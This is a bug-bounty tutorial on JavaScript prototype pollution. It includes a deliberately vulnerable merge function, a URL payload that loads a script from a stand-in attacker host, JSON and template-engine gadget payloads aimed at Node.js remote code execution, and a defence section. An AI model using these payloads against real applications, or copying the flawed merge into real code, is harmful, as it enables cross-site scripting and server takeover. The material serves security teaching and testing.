

# JavaScript Prototype Pollution

## When to Use
- When auditing JavaScript-heavy applications (both client-side SPA or server-side Node.js) that perform complex object assignments, deep merges, or cloning (e.g., using libraries like Lodash, jQuery, or custom merge functions).
- To escalate seemingly unexploitable logic bugs into severe vulnerabilities like DOM XSS on the client or RCE on the backend server.
- When an application parses JSON or URL query streams directly into objects without properly sanitizing highly sensitive keys like `__proto__`.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Understanding Prototype Pollution (The Concept)

```javascript
# Concept: In JavaScript, almost everything is an Object. Objects inherit properties from their `prototype`.
# The root prototype is accessible via the magical `__proto__` property (or `constructor.prototype`).
# If an attacker can inject properties into `Object.prototype`, those properties will be inherited globally
# by ALL objects in the application that do not explicitly define that property.

# Harmless object creation:
let myObj = {}; 
console.log(myObj.isAdmin); // undefined

# The Pollution:
Object.prototype.isAdmin = true;

# The Impact:
let newObj = {};
console.log(newObj.isAdmin); // true! (The application is globally polluted)
```

### Phase 2: Identifying Injection Sinks

```javascript
# Look for vulnerable patterns in the source code where user input is recursively merged into existing objects.
# Common vulnerable functions: `merge()`, `clone()`, `extend()`, `update()`.

# Example of a vulnerable recursive merge function:
function merge(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object' && typeof target[key] === 'object') {
            merge(target[key], source[key]);
        } else {
            target[key] = source[key]; // <--- THE FLAW: It allows key === '__proto__'
        }
    }
    return target;
}
```

### Phase 3: Client-Side Exploitation (DOM XSS)

```javascript
# Concept: Find a "gadget" – a piece of legitimate application code that behaves dangerously 
# if a specific undefined property is suddenly defined via prototype pollution.

# Gadget Example in application code:
# let config = { timeout: 5000 };
# if (config.scriptSrc) {
#    let script = document.createElement('script');
#    script.src = config.scriptSrc; // Executes external script!
#    document.body.appendChild(script);
# }

# 1. Payload Creation: URL Parameter Injection
# Send a link to the victim: 
# https://target.com/?__proto__[scriptSrc]=https://attacker.com/evil.js

# 2. Execution:
# When the app parses the URL and runs the vulnerable `merge` function, `config.scriptSrc` inherits 
# the malicious URL, resulting in DOM-based XSS.
```

### Phase 4: Server-Side Exploitation (Node.js RCE)

```bash
# Concept: If the Node.js backend merges attacker-controlled JSON, we can pollute the server's global prototype.
# Node.js process execution functions (like `child_process.spawn` or `exec`) use configuration objects
# that check for specific properties (e.g., `shell`, `env`). If these are undefined by the developer,
# they can be inherited from the polluted prototype resulting in RCE.

# 1. JSON Payload sent via API (e.g., POST /api/updateProfile)
{
    "user_id": 1234,
    "__proto__": {
        "env": {
            "NODE_OPTIONS": "--require /proc/self/environ"
        },
        "shell": true
    }
}

# 2. The Gadget in the Backend Code
# const { exec } = require('child_process');
# exec('ping 8.8.8.8', {}); // Inherits the polluted 'env' and 'shell', causing Environment Injection!
```

#### Decision Point 🔀
```mermaid
flowchart TD
    A[Identify Object Merge/Clone operations processing user input] --> B[Test for Pollution by injecting `__proto__[test]=1`]
    B --> C{Check `Object.prototype.test`}
    C -->|Equals 1| D[Prototype Pollution Confirmed!]
    C -->|Undefined| E[Filter in place or not vulnerable. Try bypassing with `constructor[prototype][test]=1`]
    D --> F{Is it Client-side or Server-side?}
    F -->|Client-side| G[Search JavaScript for DOM XSS Gadgets (e.g. innerHTML, default script sources)]
    F -->|Server-side| H[Search for Node.js RCE Gadgets (child_process, template engine compilation)]
    G --> I[Execute Stored/Reflected DOM XSS]
    H --> J[Gain Backend Remote Code Execution]
```


### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **Safe Object Assignment**: The most robust defense is to never parse user input into object keys blindly. Use `Map` objects instead of standard objects for storing arbitrary key-value pairs assigned by users. Alternatively, instantiate objects without a prototype using `Object.create(null)` before utilizing them as generic dictionaries.
- **Input Validation & Sanitization**: Explicitly filter out keys like `__proto__`, `constructor`, and `prototype` in any function that recursively assigns or merges object properties. Implementing strict schema validation (using tools like Zod or Joi) on all incoming JSON payloads natively mitigates this by rejecting unexpected keys.
- **Software Composition Analysis (SCA)**: Modern libraries have largely patched these vulnerabilities. Routinely run tools like `npm audit` and update utility libraries (e.g., Lodash, jQuery) to versions that explicitly mitigate recursive prototype assignment.

## Key Concepts
| Concept | Description |
|---------|-------------|
| Prototype | The fundamental inheritance model in JavaScript where objects inherit methods and properties from a parent prototype object dynamically |
| `__proto__` | A magical accessor property that points directly to the object's parent prototype, enabling dynamic manipulation |
| Gadget | Existing, legitimate application code that performs a dangerous action (like executing a script) only when an unexpected variable is initialized via global prototype pollution |


## Output Format
```
Javascript Prototype Pollution — Assessment Report
============================================================
Target: [Target identifier]
Assessor: [Operator name]
Date: [Assessment date]
Scope: [Authorized scope]
MITRE ATT&CK: [Relevant technique IDs]

Findings Summary:
  [Finding 1]: [Severity] — [Brief description]
  [Finding 2]: [Severity] — [Brief description]

Detailed Results:
  Phase 1: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

  Phase 2: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

Risk Rating: [Critical/High/Medium/Low/Informational]
Recommendations:
  1. [Immediate remediation step]
  2. [Long-term hardening measure]
  3. [Monitoring/detection improvement]
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Real-World Disclosed Bounties (Prototype Pollution)

| Company | Bounty | Researcher | Technique | Year |
|---------|--------|-----------|-----------|------|
| **Various HackerOne** | $2K-$10K | (Multiple) | Prototype pollution → RCE via server-side gadgets | 2023-2025 |

**Key Lesson**: Client-side prototype pollution alone = Low/Medium. Server-side prototype 
pollution (especially Node.js) = High/Critical because it can chain to RCE.

**Gadget chains that escalate prototype pollution to RCE:**
```javascript
// If the app uses child_process.spawn/exec/fork with pollutable options:
Object.prototype.shell = true;
Object.prototype.NODE_OPTIONS = "--require /proc/self/environ";
// → RCE via environment variable injection

// If the app uses EJS/Pug/Handlebars templates:
Object.prototype.client = true;
Object.prototype.escapeFunction = "(() => { return process.mainModule.require('child_process').execSync('id') })";
// → RCE via template engine gadget
```

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- PortSwigger: [Prototype Pollution](https://portswigger.net/web-security/prototype-pollution)
- OWASP: [Prototype Pollution Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Prototype_Pollution_Prevention_Cheat_Sheet.html)
- Node.js Security Working Group: [Prototype Pollution in Node.js](https://nodejs.org/en/blog/vulnerability/february-2023-security-releases)
